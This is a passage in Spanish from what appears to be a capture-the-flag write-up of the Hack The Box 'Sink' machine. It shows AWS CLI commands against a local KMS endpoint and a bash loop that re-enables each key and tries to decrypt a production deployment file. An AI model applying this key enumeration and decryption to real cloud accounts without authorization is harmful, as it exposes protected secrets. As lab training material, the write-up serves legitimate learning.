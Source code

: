 ```bash
# Escapando la ruta absoluta:
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (AccessDeniedException) when calling the Decrypt operation: The ciphertext refers to a customer master key that does not exist, does not exist in this region, or you are not allowed to access.
```

Pero nada, solo vemos errores, entiendo que debemos indicarle la `keyId`, elijamos cualquiera y veamos que sucede:

```bash
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (DisabledException) when calling the Decrypt operation: f0579746-10c3-4fd1-b2ab-f312a5a0f3fc is disabled.
```

Nos indica que la operación `Decrypt` esta inhabilitada para esa `key`, leyendo de nuevo la doc de **kms** hay un argumento para habilitar una `key`, probemos a ver si de eso se trata el error:

```bash
# Habilitamos
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"

# Ejecutamos de nuevo
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
```

Obtenemos un error diferente, relacionado posiblemente a la desencriptación en concreto (` Invalid Ciphertext`) o quizás a que esa `key` no es la necesaria para ese archivo... 

Creémonos un script para que nos valide con todas las keys.

Las extraemos:

![313bash_davidSH_listkeys_grep_cut](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_listkeys_grep_cut.png)

En el script las guardaremos en un archivo temporal para ir leyendo cada una, ahora si hagamos el archivo:

* Agregaremos los argumentos `--output text` y `--query Plaintext` (***These parameters extract the decrypted data, called the plaintext, from the command's output.***)

---

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp

while read keyId; do  # Tomamos cada llave del archivo
    # Habilitamos la llave
    aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

    echo -ne "\n$keyId:"
    # Desencriptamos el archivo servers.enc
    aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext
done < $file_with_keys

```